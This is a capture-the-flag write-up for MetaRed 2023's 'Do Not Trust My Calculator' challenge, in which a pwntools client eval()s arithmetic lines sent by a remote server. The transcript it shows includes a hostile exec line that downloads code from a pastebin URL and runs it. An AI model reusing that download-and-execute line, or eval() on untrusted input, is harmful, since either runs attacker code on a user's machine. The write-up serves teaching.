 ```yaml
---
title: MetaRed CTF 2023 - Do Not Trust My Calculator
date: Thu Oct 26 03:35:14 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,misc,web]
---
```


## Description

Do Not Trust My Calculator

`calculator.ctf.cert.unlp.edu.ar 15001`

## Solution

If you connect to challenge server you get:
```powershell
➜ ncat calculator.ctf.cert.unlp.edu.ar 15001
 _______  _______ _________ _______  _______  _______  ______
(       )(  ____ \__   __/(  ___  )(  ____ )(  ____ \(  __  \
| () () || (    \/   ) (   | (   ) || (    )|| (    \/| (  \  )
| || || || (__       | |   | (___) || (____)|| (__    | |   ) |
| |(_)| ||  __)      | |   |  ___  ||     __)|  __)   | |   | |
| |   | || (         | |   | (   ) || (\ (   | (      | |   ) |
| )   ( || (____/\   | |   | )   ( || ) \ \__| (____/\| (__/  )
|/     \|(_______/   )_(   |/     \||/   \__/(_______/(______/


Bienvenidos! Resuelvan estas sumas para obtener la flag!:
5642 + 123
Mmmm tardaste mucho amiguito
```

```
Welcome! Solve these sums to obtain the flag!:
5642 + 123
Mmmm you took a long time little friend
```

We have to answer given questions in less then a second.

```py
from pwn import remote, context

# context.log_level = 'DEBUG'

io = remote('calculator.ctf.cert.unlp.edu.ar', 15001)

def recv(): return io.recvline().decode().strip()
def answer(equation): io.sendline(f'{eval(equation)}'.encode())
    
io.recvuntil(b"flag!:\n")
answer(recv())

while True:
    io.recvuntil(b'A resolver!:\n')
    line = recv()
    if line.startswith("exec"):
        print(line)
        print(io.recvallS())
        break
    answer(line)
```

```powershell
➜ python .\calc.py
[x] Opening connection to calculator.ctf.cert.unlp.edu.ar on port 15001
[x] Opening connection to calculator.ctf.cert.unlp.edu.ar on port 15001: Trying 119.8.73.156
[+] Opening connection to calculator.ctf.cert.unlp.edu.ar on port 15001: Done
exec('import urllib.request; exec(urllib.request.urlopen("https://pastebin.com/raw/67sfqDfw").read())')
[x] Receiving all data
[x] Receiving all data: 27B
[+] Receiving all data: Done (27B)
[*] Closed connection to calculator.ctf.cert.unlp.edu.ar port 15001
Bien! Chequea tu wallpaper
```

In given pastebin we find `url_img = "https://i.imgur.com/ACC4zAh.png"`

![calculator-1](/assets/images/metared/2023/calculator-1.png)

> Flag: flag{Dont_trust_in_insecure_code!}
{: .prompt-tip }